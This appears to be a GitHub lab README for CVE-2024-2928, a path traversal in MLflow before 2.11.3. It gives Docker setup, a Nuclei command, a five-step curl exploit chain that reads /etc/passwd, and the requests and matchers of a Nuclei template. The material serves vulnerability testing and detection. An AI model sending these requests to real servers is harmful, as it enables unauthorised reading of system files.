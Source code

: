 

# CVE-2024-2928 - MLflow < 2.11.3 - Path Traversal

## Description

MLflow versions prior to `2.11.3` are vulnerable to a **Path Traversal** vulnerability due to improper handling of URI fragments in artifact locations. An attacker can exploit this to read arbitrary files from the server, including sensitive files like `/etc/passwd`.


## References:

* [NVD CVE Details](https://nvd.nist.gov/vuln/detail/CVE-2024-2928)
* [Exploit Code](https://github.com/nuridincersaygili/CVE-2024-2928/blob/main/CVE-2024-2928.py)
* [Nuclei Official Template](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-2928.yaml)


## Lab Setup

> Requires Docker installed

```bash
docker-compose up -d
```

The vulnerable MLflow application will run on:

```bash
http://<your-docker-ip>:5000
```


## Nuclei Command

```bash
nuclei -u http://192.168.1.172:5000 -t CVE-2024-2928.yaml
```

![1](https://github.com/user-attachments/assets/b106e672-0357-401a-9f54-a1a0dce74560)


# Exploitation Steps (Manual)

1. Create experiment with artifact location as /etc/:
```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/experiments/create \
  -H "Content-Type: application/json" \
  -d '{
        "name": "exploit123",
        "artifact_location": "http:///#/../../../../../../../../../../../../../..//etc/"
      }'
```

 - You should get experiment_id: 7 (for example)


2. Create run: (experiment_id request according change)

```
curl -s -X POST http://192.168.1.172:5000/api/2.0/mlflow/runs/create \
  -H "Content-Type: application/json" \
  -d '{"experiment_id": "7"}'
```
 - Note the run_id returned. Let's say: 3cfc250090b246b68f34fb2dfa42ba0e

3. Register model:

```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/registered-models/create \
  -H "Content-Type: application/json" \
  -d '{"name": "exploit123"}'
```

4. Create model version using directory as source: (Chage run_id according to request)

```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/model-versions/create \
  -H "Content-Type: application/json" \
  -d '{
        "name": "exploit123",
        "run_id": "3cfc250090b246b68f34fb2dfa42ba0e",
        "source": "file:///etc/"
      }'
```

 - This should now succeed because /etc/ matches the artifact path.

5. Fetch /etc/passwd

```
curl -s "http://192.168.1.172:5000/model-versions/get-artifact?path=passwd&name=exploit1234&version=1"
```

# Steps to Write Nuclei Template

## Variables & Extractors

* No user-defined variables, random string (`{{randstr}}`) used for names
* Extracted fields:

  * `EXPERIMENT_ID` — From first response
  * `RUN_ID` — From second response


## Full Template Request Breakdown

### Request 1 — Create Experiment with Path Traversal

```yaml
POST /ajax-api/2.0/mlflow/experiments/create
{"name": "{{randstr}}", "artifact_location": "http:///#/../../../../../../../../../../../../etc/"}
```

Extract `EXPERIMENT_ID`


### Request 2 — Create Run

```yaml
POST /api/2.0/mlflow/runs/create
{"experiment_id": "{{EXPERIMENT_ID}}"}
```

Extract `RUN_ID`

### Request 3 — Create Model

```yaml
POST /ajax-api/2.0/mlflow/registered-models/create
{"name": "{{randstr}}"}
```


### Request 4 — Create Model Version with `/etc/` Source

```yaml
POST /ajax-api/2.0/mlflow/model-versions/create
{"name": "{{randstr}}", "run_id": "{{RUN_ID}}", "source": "file:///etc/"}
```


### Request 5 — Exploit LFI by Reading `/etc/passwd`

```yaml
GET /model-versions/get-artifact?path=passwd&name={{randstr}}&version=1
```


## Matchers

```yaml
- Status code 200  
- Response body contains "root:.*:0:0:"  
- Response header confirms "filename=passwd" and "application/octet-stream"  
```


